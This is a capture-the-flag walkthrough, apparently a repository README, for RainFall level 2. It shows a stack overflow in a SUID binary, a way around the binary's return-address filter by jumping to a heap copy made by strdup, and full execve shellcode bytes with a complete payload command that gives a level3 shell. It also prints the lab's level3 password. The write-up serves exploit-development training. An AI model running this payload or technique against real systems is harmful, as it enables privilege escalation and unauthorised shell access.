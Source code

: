 # Level 2 Walkthrough

## Who am I?

```bash
level2@RainFall:~$ id
uid=2002(level2) gid=2002(level2) groups=2002(level2)
```

## Where am I?

```bash
level2@RainFall:~$ ll
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 ./
dr-x--x--x  1 root   root    340 Sep 23  2015 ../
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*
```

We are in possession of a SUID binary owned by level3. Our objective is to exploit this binary to gain a shell as level3 and read the corresponding `.pass` file.

## First look at the binary (GDB)

Before running the binary, we open it in GDB to check which functions are defined:

```
(gdb) info functions
...
0x080484d4 p
0x0804853f main
```

We see two user-defined functions of interest: `main()` and `p()`.

Let’s disassemble `main()`:

```
(gdb) disas main
    0x0804853f <+0>: push %ebp
    0x08048540 <+1>: mov %esp,%ebp
    0x08048542 <+3>: and $0xfffffff0,%esp
    0x08048545 <+6>: call 0x80484d4 <p>
    0x0804854a <+11>: leave
    0x0804854b <+12>: ret
```

The main function simply calls `p()`.

Now, disassembling `p()` gives:

```
(gdb) disas p
    ...
    call 0x80483c0 <gets@plt>
    ...
    call 0x80483f0 <puts@plt>
    ... call 0x80483e0 <strdup@plt>
```

We immediately notice the use of the insecure `gets()` function and that the input is printed and copied using `puts()` and `strdup()` respectively. This sets the stage for a possible buffer overflow exploit.

## Program Behavior

The program accepts input from stdin, prints it back, and exits.

```bash
level2@RainFall:~$ ./level2
test
test
```

But when given a longer input:

```bash
level2@RainFall:~$ ./level2
<100+ characters>
Segmentation fault (core dumped)
```

This crash strongly suggests the presence of a buffer overflow.

## Exploitation Strategy

### Step 1: Discover the overflow offset

We generate a cyclic pattern of 100 bytes:

```bash
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5...
```

Then launch the binary inside GDB:

```gdb
(gdb) run
Aa0Aa1Aa2Aa3Aa4Aa5...
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers eip
eip            0x37634136       0x37634136
```

We find the offset:

```bash
$ msf-pattern_offset -q 0x37634136
[*] Exact match at offset 80
```

So it takes **80 bytes** to reach EIP.

### Step 2: Understand the program's filter

Using Ghidra, we decompiled the binary and observed the following logic in the function `p()`:

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```

**Note:** The variable `unaff_retaddr` does not appear in the source code. This is a name automatically generated by Ghidra to represent the return address saved on the stack. Internally, the program likely retrieves this using a compiler intrinsic such as `__builtin_return_address(0)`.

This check verifies whether the return address (i.e., the address where execution would continue after the function ends) starts with `0xb`, which corresponds to stack memory on this system (e.g., `0xbfxxxxxx`).

If the return address points to the stack, the program prints it and exits immediately. This effectively blocks stack-based shellcode. As a result, we must place our shellcode somewhere else, like the heap and redirect execution there instead.

### Step 3: Determine a usable memory region

At this point, we know that jumping to the stack is forbidden. To successfully exploit the binary, we need to redirect execution to a region where we can inject shellcode that won't be rejected by the address check.

The heap is a good candidate because memory allocations via `malloc()` (used indirectly by `strdup()`) are typically located in the `0x0804xxxx` range, which does not begin with `0xb`.

We will now verify where the heap allocation occurs.

### Step 4: Identify the heap allocation address


After entering input, the program stores a copy of it using `strdup()`, which allocates memory on the heap. This is important because, due to the return address filter (see Step 2), we cannot execute shellcode on the stack.
`ltrace` is a tool that traces calls to shared libraries (like `libc`). It allows us to observe functions such as `gets`, `strdup`, `malloc`, etc., in real time, without needing symbols or debugging information.

So, to locate where the input gets copied in the heap, we can run the binary with `ltrace`:

```
$ ltrace ./level2
fflush(0xb7fd1a20)                                    = 0
gets(0xbffff6fc)                                      = 0xbffff6fc
puts("test")                                          = 5
strdup("test")                                        = 0x0804a008

```

This confirms that our input is copied to the heap at `0x0804a008` via `strdup()`.

Since this address doesn't start with 0xb, it passes the check and is usable for exploitation. This is where we’ll inject our shellcode, and later overwrite the return address to jump here.

### Step 5: Plan the payload layout

At this point, we know:

* We can inject shellcode through standard input.
* It will be stored in the heap via `strdup()` at an address like `0x0804a008`.
* The return address is overwritten at offset 80.

The goal is to:

1. Place shellcode at the beginning of the input so it ends up in the heap.
2. Pad the rest of the input up to 80 bytes.
3. Overwrite the return address with the address of the shellcode in the heap.

We can now move on to crafting the actual payload.

### Step 6: Build the exploit payload

* Shellcode (28 bytes): `execve("/bin//sh")` from [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)
* Padding (52 bytes): to reach EIP at offset 80
* Return address: `0x0804a008` (address of shellcode in heap)

```bash
python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08")' > /tmp/exploit
```

### Step 7: Trigger the exploit

To maintain an interactive shell:

```bash
cat /tmp/exploit - | ./level2
```

### Step 8: Validate access

```bash
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Files in this repository

* `flag.txt` : file containing the retrieved flag
* `asm_analysis.md` : GDB analysis of the binary
* `decompiled_level2/` : folder containing the reconstructed C code from Ghidra&#x20;

